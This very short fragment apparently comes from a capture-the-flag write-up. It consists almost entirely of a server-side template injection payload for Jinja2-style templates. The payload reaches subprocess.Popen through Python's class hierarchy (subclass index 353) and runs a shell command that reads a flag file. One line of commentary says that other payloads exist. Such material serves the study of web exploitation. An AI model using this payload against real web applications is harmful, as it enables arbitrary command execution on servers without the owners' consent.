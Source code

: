{{''.__class__.__base__.__subclasses__()[353]('cat flag118401.txt', shell=True, stdout=-1).communicate()}}

payload , 353 is the index of the popen subprocess , there are other payloads 
